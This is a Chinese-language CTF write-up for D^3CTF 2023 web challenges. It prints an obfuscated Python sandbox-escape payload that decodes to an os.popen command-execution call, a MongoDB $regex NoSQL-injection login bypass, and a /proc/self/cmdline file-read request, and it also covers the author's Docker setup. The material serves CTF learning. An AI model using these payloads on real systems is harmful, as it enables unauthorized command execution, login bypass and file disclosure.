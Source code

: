 # D^3CTF 2023

> [题目地址](https://race.d3ctf.cn/contest/1)

## Web

### Escape Plan

#### 题目描述

#### 题目分析

一个 python 的命令执行题目，但是有黑名单过滤。

> 具体解法应是参考这篇文章：[Python 沙箱逃逸的通解探索之路 | CN-SEC 中文网](https://cn-sec.com/archives/1322842.html)

黑名单具体如下，最后是通过 `eval()` 函数进行命令执行的：

![image-20230505204602179](picture/image-20230505204602179.png)

```python
u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'

CMD = "eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=()))[len([])]))"

CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)})
```

#### 题目复现

发现我拉取镜像失败，不能启动 Docker。

尝试更换一下 Docker 的镜像源也没用，真的纯搞心态。┭┮﹏┭┮ 黑化了。

一直都是这个问题：

![image-20230511170631209](picture/image-20230511170631209.png)

最后我直接单独 pull 这个镜像，终于进入了构建的下一步：

```bash
docker pull python:3.8-alpine
```

![image-20230511170755134](picture/image-20230511170755134.png)

> md 还要下好多东西。



### d3 cloud



### d3 node

- [源码链接](https://github.com/nerowander/d3ctf2023-web-d3node)

#### 环境搭建

```bash
git clone https://github.com/nerowander/d3ctf2023-web-d3node.git
sudo docker-compose up -d
```

等待一会就可以了。

```
curl 127.0.0.1:10000
```



#### 题目分析

登录页面 F12 发现提示 1。看起来存在 nosql 注入，我们需要绕过 waf 登录一下。

![image-20230511211433962](picture/image-20230511211433962.png)

![image-20230511211506460](picture/image-20230511211506460.png)

不是很理解这一步为什么能想到 nosql，我只能看出来接收 username 和 password 参数。

后面我用搜索引擎查了以下相关源码关键字：

```sql
Userinfo.findOne
```

![image-20230511211850317](picture/image-20230511211850317.png)

这应该是 MongoDB 数据库的查询语句，而 MongoDB 是 nosql 型也就是非关系型数据库。看到这里我懂了，看来还是对数据库的了解不够，不能够立即辨认出提示图片给的源码是 MongoDB 的查询语句。

![image-20230511212211697](picture/image-20230511212211697.png)

![image-20230511212152664](picture/image-20230511212152664.png)

很好，现在在网上寻找有关 MongoDB 注入的文章进行学习吧。

建议参看先知社区[这篇](https://xz.aliyun.com/t/9908)，完成从零到一。

```sql
{"username": {"$regex": "admin"}, "password": {"$regex": "" }}
```

登录进去发现提示 2，告诉我们存在任意文件读取漏洞。

```http
/dashboardIndex/ShowExampleFile?filename=/proc/self/cmdline
```

